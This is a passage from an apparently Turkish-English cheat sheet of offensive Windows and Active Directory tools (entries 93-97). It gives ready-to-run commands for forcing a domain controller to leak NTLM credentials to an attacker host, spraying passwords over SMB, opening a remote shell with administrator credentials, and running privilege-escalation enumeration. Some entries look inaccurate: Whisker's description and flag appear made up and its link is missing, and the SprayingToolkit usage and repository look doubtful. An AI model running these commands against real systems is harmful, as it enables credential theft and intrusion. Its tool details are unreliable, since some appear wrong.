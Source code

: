 
## 93. SpoolSample
**Kısa Tanım**: MS-RPRN print spooler zafiyet PoC. DC’yi NTLM kimlik bilgisi sızdırmaya zorlayabilir.  
**Usage**:
```powershell
.\SpoolSample.exe dc01.domain.local attackerhost
```
**GitHub**: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

---

## 94. SprayingToolkit
**Kısa Tanım**: Password spray saldırılarını (OWA, RDWeb, SMB) toplu yapabilen Python çerçevesi.  
**Usage**:
```bash
python3 SprayingToolkit.py -m smb -u users.txt -p 'Winter2025!'
```
**GitHub**: [https://github.com/AnonyProzie/SprayingToolkit](https://github.com/AnonyProzie/SprayingToolkit)

---

## 95. Whisker
**Kısa Tanım**: Bazı .NET tabanlı enumerasyon ve privesc testleri yapar (az bilinen).  
**Usage**:
```powershell
.\Whisker.exe -mode enum
```
**GitHub**: [Araştırınız]

---

## 96. Winexe / pth-winexe
**Kısa Tanım**: Linux’tan Windows komut satırı açmaya yarar (RPC). pth-winexe = pass-the-hash sürümü.  
**Usage**:
```bash
winexe -U 'DOMAIN\Administrator%Password123' //10.0.0.10 cmd.exe
```
**GitHub**: [https://github.com/alkalino/pth-winexe](https://github.com/alkalino/pth-winexe)

---

## 97. winPEAS
**Kısa Tanım**: Windows local enumeration script (Privilege Escalation Awesome Scripts).  
**Usage**:
```powershell
.\winPEASx64.exe
```
**GitHub**: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---